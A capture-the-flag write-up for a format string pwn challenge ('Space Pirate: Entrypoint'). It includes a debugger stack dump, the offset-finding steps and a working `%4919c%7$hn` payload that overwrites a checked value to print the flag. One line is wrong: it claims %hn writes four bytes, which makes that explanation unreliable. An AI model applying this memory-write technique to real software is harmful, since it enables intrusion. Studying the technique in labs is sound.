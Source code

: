# Space Pirate:Entrypoint

### Challenge: PWN

### Tools: Ghidra, Pwndbg

### Vulnerability: Format String

This challenge is in the form of a format string  vulnerability. Since I had never used one I followed these links for a very good run down on a format string attack.

https://kevinalmansa.github.io/application%20security/Format-Strings

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

Below is the main function where our vulnerability sits. The check_pass function has no actual vulnerability.




We can see that local 48 = 0xdeadbeef but if local_48 = 0xdead1337 then it will open_door which is the function that prints our flag. So our goal is to change the value of 0xdeadbeef to 0xdead1337.
Now the way I actually figured out there was a format string vulnerability was by putting in different % commands to see if anything happened and luckily I found that %p was printing addresses. %s and %n will cause a segmentation fault.




By inputting a couple of %p we can see that the address 0xdeadbeef is at offset 6 and input data is put into offset 7. Anything after becomes arbitrary.

{$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x007ffff7af2031  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x1f              
$rsp   : 0x007fffffffdce0  →  0x00000000deadbeef
$rbp   : 0x007fffffffdd20  →  0x00555555400e20  →  <__libc_csu_init+0> push r15
$rsi   : 0x007fffffffdcf0  →  "%p %p %p %p %p %p %p %p %p %p\n"
$rdi   : 0x00555555402658  →  "\nYour card is: "
$rip   : 0x00555555400d84  →  <main+142> call 0x5555554008a0 <printf@plt>
$r8    : 0x47              
$r9    : 0x0               
$r10   : 0x007ffff7b80bc0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00555555400940  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffde00  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdce0│+0x0000: 0x00000000deadbeef     ← $rsp
0x007fffffffdce8│+0x0008: 0x007fffffffdce0  →  0x00000000deadbeef
0x007fffffffdcf0│+0x0010: "%p %p %p %p %p %p %p %p %p %p\n"      ← $rsi
0x007fffffffdcf8│+0x0018: " %p %p %p %p %p %p %p\n"
0x007fffffffdd00│+0x0020: "p %p %p %p %p\n"
0x007fffffffdd08│+0x0028: 0x000a7025207025 ("%p %p\n"?)
0x007fffffffdd10│+0x0030: 0x007fffffffde00  →  0x0000000000000001
0x007fffffffdd18│+0x0038: 0x10674ff2d0c4b300
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555400d73 <main+125>       call   0x5555554008c0 <read@plt>
   0x555555400d78 <main+130>       lea    rdi, [rip+0x18d9]        # 0x555555402658
   0x555555400d7f <main+137>       mov    eax, 0x0
 → 0x555555400d84 <main+142>       call   0x5555554008a0 <printf@plt>
   ↳  0x5555554008a0 <printf@plt+0>   jmp    QWORD PTR [rip+0x2026ea]        # 0x555555602f90 <printf@got.plt>
      0x5555554008a6 <printf@plt+6>   push   0x4
      0x5555554008ab <printf@plt+11>  jmp    0x555555400850
      0x5555554008b0 <alarm@plt+0>    jmp    QWORD PTR [rip+0x2026e2]        # 0x555555602f98 <alarm@got.plt>
      0x5555554008b6 <alarm@plt+6>    push   0x5
      0x5555554008bb <alarm@plt+11>   jmp    0x555555400850
───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00555555402658 → "\nYour card is: ",
   $rsi = 0x007fffffffdcf0 → "%p %p %p %p %p %p %p %p %p %p\n",
   $rdx = 0x0000000000001f
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sp_entrypoint", stopped 0x555555400d84 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555400d84 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
Python Exception <class 'AttributeError'> partially initialized module 'pwndbg' has no attribute 'commands' (most likely due to a circular import): 
gef➤  x50x $rsp
Undefined command: "x50x".  Try "help".
gef➤  x/50x $rsp
0x7fffffffdce0: 0xdeadbeef      0x00000000      0xffffdce0      0x00007fff
0x7fffffffdcf0: 0x25207025      0x70252070      0x20702520      0x25207025
0x7fffffffdd00: 0x70252070      0x20702520      0x25207025      0x00000a70
0x7fffffffdd10: 0xffffde00      0x00007fff      0xd0c4b300      0x10674ff2
0x7fffffffdd20: 0x55400e20      0x00005555      0xf7a03c87      0x00007fff
0x7fffffffdd30: 0x00000001      0x00000000      0xffffde08      0x00007fff
0x7fffffffdd40: 0x00008000      0x00000001      0x55400cf6      0x00005555
0x7fffffffdd50: 0x00000000      0x00000000      0xd40bc83c      0x088c5f78
0x7fffffffdd60: 0x55400940      0x00005555      0xffffde00      0x00007fff
0x7fffffffdd70: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd80: 0x722bc83c      0x5dd90a07      0xb035c83c      0x5dd91ab8
0x7fffffffdd90: 0x00000000      0x00007fff      0x00000000      0x00000000
0x7fffffffdda0: 0x00000000      0x00000000} 
 

So now that we know where we need to point the format string attack we can set up the command. Also we only need to change the last 2 bytes for the attack

Command = `%4919c%7$hn`	
	- 1337=4919(last 4 of dead1337 from hex) 
  - c= prints character
  - %7=the offset we are placing the $hn 
  - $hn=writes 4 bytes to the target pointer.






With that we have our flag!

When I first started out I think I was diving too deep and trying scripts like `“dead1337””\x20\xdf\xff\xff””%7$n”` to print the flag but eventually realized this challenge was simpler than that.

